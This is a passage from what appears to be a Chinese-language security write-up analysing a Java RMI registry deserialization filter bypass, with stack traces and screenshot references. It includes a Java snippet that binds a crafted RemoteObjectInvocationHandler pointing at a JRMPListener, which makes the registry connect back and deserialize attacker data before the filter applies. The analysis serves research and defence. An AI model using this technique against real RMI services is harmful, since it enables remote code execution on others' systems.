 ```java
ObjID id = new ObjID(new Random().nextInt());
TCPEndpoint te = new TCPEndpoint("127.0.0.1", 12333); // JRMPListener's port is 12333
UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
RemoteObjectInvocationHandler obj = new RemoteObjectInvocationHandler(ref);
registry.bind("User", obj);
```

构造一个 RemoteObjectInvocationHandler 发送给注册中心，它的 ref 属性里面保存了 JRMPListener 的端口信息，示例代码中的几个类都在 RMI 白名单中。注册中心进行 bind 时会调用其父类 Remote 的 readObject 方法进行反序列化，并通过 UnicastRef#readExternal 封装我们写入的 IP 和端口信息。此时的调用栈如下：

```text
read:315, LiveRef (sun.rmi.transport)
readExternal:489, UnicastRef (sun.rmi.server)
readObject:455, RemoteObject (java.rmi.server)
...
readObject0:1573, ObjectInputStream (java.io)
readObject:431, ObjectInputStream (java.io)
dispatch:92, RegistryImpl_Skel (sun.rmi.registry)
...
```

跟进 LiveRef#read 方法：

{{< figure src="/ox-hugo/2021-04-20_02-13-01_screenshot.png" >}}

这里将端口信息保存到 LiveRef 对象中，这些信息会在后面发送 JRMP 请求时用到。然后返回 RegistryImpl_Skel#dispatch 流程，执行 releaseInputStream 方法。一直跟进到以下代码，执行 DGCClient#registerRefs 并且参数包含恶意服务端的端口信息：

{{< figure src="/ox-hugo/2021-04-20_14-25-33_screenshot.png" >}}

执行到 DGCImpl_Stub#dirty：

{{< figure src="/ox-hugo/2021-04-20_14-55-00_screenshot.png" >}}

可以看到在 ref 属性中包含服务端的端口信息，通过 newCall 建立 JRMP 连接，writeObject 写入要发送的数据，然后调用 invoke 方法处理(发送)请求。在 StreamRemoteCall#executeCall 方法中获取连接的输入流，并执行 readObject 反序列化从输入流获取的对象：

{{< figure src="/ox-hugo/2021-04-20_15-05-38_screenshot.png" >}}

此时的调用栈如下：

```text
executeCall:252, StreamRemoteCall (sun.rmi.transport)
invoke:375, UnicastRef (sun.rmi.server)
dirty:109, DGCImpl_Stub (sun.rmi.transport)
makeDirtyCall:382, DGCClient$EndpointEntry (sun.rmi.transport)
registerRefs:324, DGCClient$EndpointEntry (sun.rmi.transport)
registerRefs:160, DGCClient (sun.rmi.transport)
registerRefs:102, ConnectionInputStream (sun.rmi.transport)
releaseInputStream:157, StreamRemoteCall (sun.rmi.transport)
dispatch:96, RegistryImpl_Skel (sun.rmi.registry)
...
```

跟进这个流的反序列化过程，就能看到在执行 filterCheck 方法检查恶意类 BadAttributeValueExpException 时，还没有设置过滤器。

{{< figure src="/ox-hugo/2021-04-20_15-11-10_screenshot.png" >}}
